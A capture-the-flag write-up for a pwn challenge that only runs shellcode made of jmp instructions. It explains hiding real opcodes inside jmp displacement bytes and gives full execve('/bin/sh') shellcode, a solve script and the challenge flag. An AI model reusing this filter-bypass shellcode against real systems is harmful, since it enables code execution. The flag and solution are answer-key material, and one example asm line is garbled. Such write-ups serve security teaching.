 # jmp

## Challenge

`Author`: **godsword**

**Description**

> jmp jmp jmp

**Files**

- [out_patched](./files/out_patched)
- [libc.so.6](./files/libc.so.6)
- [ld.so.2](./files/ld.so.2)
- [libcapstone.so.5](./files/libcapstone.so.5)

## Writeup

### Reverse Engineering

We are provided with the binary `out_patched`, no source code so let's decompile with ida (or ghidra whatever).

> Note: You need to put the executable and the libraries in the same directory since it's already patched.

There are two things to notice, it's quite simple  
Main  
![main decoompiled](./images/main.png)
Basically, it is mapping a region and reading user input into it and then after passing it to a check function it changes the permissions of the segment to RW and finally it calls our input which obviously should be a shellcode.  
Now for the check function
![check decompiled](./images/check.png)
So, this functions desassembles our shellcode and just makes sure that every instruction is a `jmp`.

### Exploitation

What we need to do is pretty straitghforward: write a shellcode with only `jmp` instruction.  
wait what ???

![???? gif](./images/what.gif)

That was my reaction at the beginning, I thought of trying to find some absurd combination of rop gadgets but I quickly realized I was stupid since `PIE` is enabled

![checksec](./images/checksec.png)

So, after some time of questionning my life choices I realized that since jmp uses relative offsets, the actual solution came to mind.  
We just need to use the offset themselves as instructions, so we just would need to use one jmp in order to jump in the middle of the next jmp instruction, in this case, the offset will be considerd as opcodes.  
example:

- Opcode for `pop rax` is `0x58`
- Opcode for `short jmp` (1 byte offset) is `0xeb`
- it means that if we have this code snippet:

```asm
jmp 0x1    // \xeb\x01
jmp 0x0x58 // \xeb\x01
```

So basically in this case, with dynamic analysis we will be getting

```asm
jmp 0x1 // \xeb\x01
pop rax // \x58
```

And using this principle we just need to write this shellcode:

```asm
mov rsi, rsp
add rsi, 0x50
xor rdi, rdi
xor rax, rax
push 0x8
pop rdx
syscall ; read(fd=0,buf=rsi,count=0x8) we are gonna send /bin/sh

mov rdi, rsi
push 0x3b
pop rax
push 0
push 0
pop rsi
pop rdx
syscall ; execve(pathname=rsi,argv=NULL,envp=NULL)
```

so at the end, we will get this final payload

```py
def main():
    global io
    io = conn()
    shellcode=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xe6"# mov rsi, rsp
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x48\x83\xc6\x50" # add rsi, 0x50

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xFF" # xor rdi, rdi
    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xc0" # xor rax, rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x08" #push 0x8 to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xf7" # mov rdi, rsi

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x3b" #push 0x3b to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x58" #pop rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5e" #pop rsi

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    # shellcode+=b"\xeb\x00"# infinite loop
    # shellcode+=b"\xeb\xfe"# infinite loop

    sleep(0.1)
    io.send(shellcode)

    sleep(0.1)

    io.send(b"/bin/sh\x00")
    sleep(0.1)

    io.interactive()

```

Solve script [here](./solve/solve.py)

> Note: we are also using near jmp (4 bytes offset) with opcode `0xe9` in order to have more flexibility in the shellcode

## Flag

`ingehack{the_junkiest_solve_script_award_goes_to}`
